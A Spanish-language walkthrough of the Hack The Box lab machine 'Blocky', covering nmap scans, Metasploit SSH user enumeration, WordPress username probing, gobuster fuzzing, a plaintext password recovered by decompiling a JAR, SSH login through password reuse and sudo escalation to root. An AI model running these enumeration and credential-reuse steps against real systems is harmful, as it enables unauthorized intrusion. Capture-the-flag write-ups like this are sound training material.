





---

# Información:


- **Nombre**: Blocky
- **Difilcultad**: Fácil
- **Plataforma**: Hack The Box
- **Autor**: Arrexe
- **Técnicas utilizadas**: Enumeración de servicios, reconocimiento web, descompilación de archivos Java (JAR), explotación de credenciales en código fuente y escalada de privilegios mediante sudoers.

---

## 1. Fase de Enumeración

**Verificación de Conectividad**
Una vez establecida la conexión VPN, se inicia la fase de reconocimiento verificando la disponibilidad del objetivo mediante la herramienta ping. Se envían cuatro paquetes ICMP para confirmar la comunicación:

```bash
ping -c 4 10.129.14.37    
PING 10.129.14.144 (10.129.14.37) 56(84) bytes of data.
64 bytes from 10.129.14.37: icmp_seq=1 ttl=63 time=240 ms
64 bytes from 10.129.14.37: icmp_seq=2 ttl=63 time=161 ms
64 bytes from 10.129.14.37: icmp_seq=3 ttl=63 time=186 ms
64 bytes from 10.129.14.37: icmp_seq=4 ttl=63 time=205 ms

--- 10.129.14.37 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 160.846/198.103/240.357/29.021 ms

```

**Análisis del TTL**:
El comando muestra una respuesta exitosa. Basándonos en el valor del TTL (Time To Live) de 63, se infiere que el sistema operativo objetivo es Linux (cuyo valor por defecto es 64, restando un salto debido a la infraestructura de red).

---

## Escaneo de Puertos (TCP)

Se procede a realizar un escaneo exhaustivo de los 65,535 puertos para identificar cuáles se encuentran abiertos. Para optimizar el tiempo, se utiliza una tasa de emisión de paquetes alta (--min-rate 5000) y se filtran únicamente los resultados positivos:

**Escaneo ejecutado**:

```bash
nmap -p- --open --min-rate 5000 -sS -Pn -n 10.129.14.37 -oN full-ports.txt
```

**Resultados del escaneo**:

| PORT      | STATE | SERVICE   |
| --------- | ----- | --------- |
| 21/tcp    | open  | ftp       |
| 22/tcp    | open  | ssh       |
| 80/tcp    | open  | http      |
| 25565/tcp | open  | minecraft |

---

## Análisis de Servicios y Versiones

Tras identificar los puertos abiertos, se ejecuta un escaneo dirigido utilizando los scripts de enumeración predeterminados de Nmap (-sC) y la detección de versiones de servicios (-sV):

```bash
nmap -p 21,22,80,25565 -sCV -Pn -n 10.129.14.37 -oN service-enumeration.txt
```

### Hallazgos Relevantes:

- **Puerto 22 (SSH)**: Versión OpenSSH 7.2p2. Confirma que el sistema operativo es Ubuntu Linux.

- **Puerto 80 (HTTP)**: Servidor Apache 2.4.18. Se detecta una redirección al dominio http://blocky.htb, lo que sugiere la necesidad de añadir esta entrada al archivo /etc/hosts.

---

## Búsqueda de vulnerabilidades en base a la versión de servicio

Analizando la información recopilada se confirma que la versión de *OpenSSH* 
es una versión desactualizada y al consultar en la base de datos de *searchsploit*, se observa que es vulnerable a la enumeración de usuarios.



---

## 2. Enumeración Web

**Identificación de Tecnologías**

Tras añadir el dominio `blocky.htb` al archivo `/etc/hosts`, se procede a realizar un análisis de tecnologías con la herramienta `whatweb`. El escaneo confirma que el sitio está gestionado por el **CMS WordPress**.

```bash
whatweb http://blocky.htb
```

---
## Análisis de Contenido y Usuarios

Al navegar por el sitio web, se identifica una entrada de blog donde se menciona al autor o usuario "notch". Este hallazgo sugiere un posible vector de ataque mediante fuerza bruta o enumeración de credenciales.

Para validar la existencia de este usuario, se interactúa con el panel de administración estándar de WordPress: http://blocky.htb/wp-login.php.

---

## 3. Enumeración de usuarios

### OpenSSH

Dado que la versión detectada anteriormente es *OpenSSH 7.2p2*, se sabe que este servicio es susceptible a una vulnerabilidad de enumeración de usuarios (basada en el tiempo de respuesta o en paquetes malformados). Aunque existen scripts en **Searchsploit**, se optó por utilizar un módulo auxiliar de **Metasploit Framework** para mayor agilidad.

#### Ejecución con Metasploit

Se configuró el módulo *ssh_enumusers* para validar los posibles nombres de usuario identificados en la fase de reconocimiento web y otros nombres comunes:

```bash
msfconsole
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS 10.129.14.37
set THREADS 10
# Ejecución individual para los usuarios identificados
set USERNAME notch
run
```

**Resultados de la Verificación**

Tras procesar la lista de candidatos, el módulo confirmó la existencia de las siguientes cuentas en el sistema:

| Usuario | Estado    | Observaciones                                         |
| ------- | --------- | ----------------------------------------------------- |
| notch   | Válido    | Coincide con el autor encontrado en el CMS WordPress. |
| root    | Válido    | Usuario administrativo estándar del sistema.          |
| admin   | No válido | Descartado tras la prueba.                            |

**Nota**: La confirmación del usuario *notch* tanto en el servicio web como en el servicio SSH sugiere que este usuario es un punto crítico de entrada. Los siguientes pasos se centrarán en la obtención de credenciales válidas mediante fuzzing de directorios o inspección de archivos públicos en el servidor web.

### WordPress

Se realizaron pruebas de inicio de sesión para confirmar usuarios válidos basándose en los mensajes de error del servidor:

- **Usuario "notch"**: Al ingresar una contraseña genérica, el sistema confirma que el usuario es válido (cambio en el mensaje de error o comportamiento del login).

- **Usuarios comunes**: Se probaron nombres como *admin* y *root*, los cuales fueron rechazados, confirmando que no existen en la base de datos del **CMS**.

**Nota**: La confirmación del usuario "*notch*" reduce significativamente el alcance de un posible ataque de fuerza bruta, centrando los esfuerzos únicamente en el descubrimiento de su contraseña.

---

## 4. Descubrimiento de Directorios y Explotación

### Fuzzing de Directorios

Se utilizó Gobuster para listar recursos ocultos, encontrando rutas críticas como /wp-content/ y /plugins/.

```bash
gobuster dir -u http://blocky.htb -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,txt,pdf,xml,doc,docx,md -t 100 -o directory-discovery.txt
```

**Listado de rutas obtenidas mediante ´Gobuster´**:

```bash
index.php            (Status: 301) [Size: 0] [--> http://blocky.htb/]

wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]

wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]

wp-login.php         (Status: 200) [Size: 2397]

plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]

license.txt          (Status: 200) [Size: 19935]

wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]

javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
```

---

## Análisis de Archivos JAR

Dentro del directorio /plugins/, se hallaron y descargaron dos archivos Java: BlockyCore.jar y griefprevention-1.11.2.... 



Al descompilar BlockyCore.jar con la herramienta jd-gui, se encontró la siguiente credencial en texto plano dentro de la clase principal:



- **sqlPass**: `8YsqfCTnvxAUeduzjNSXe22`

---

## 5. Intrusión y Escalada de Privilegios

### Acceso Inicial (SSH)

Debido a la reutilización de contraseñas, se probó la credencial obtenida con el usuario notch a través de SSH, logrando acceso exitoso al sistema y obteniendo la primera flag (user.txt).



### Escalada a Root

Se verificaron los privilegios del usuario mediante el comando sudo -l. Se identificó que notch puede ejecutar cualquier comando como superusuario sin restricciones:

```bash
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Al ejecutar sudo -i, se obtuvo una shell interactiva como root, permitiendo la lectura de la flag final en /root/root.txt.



---

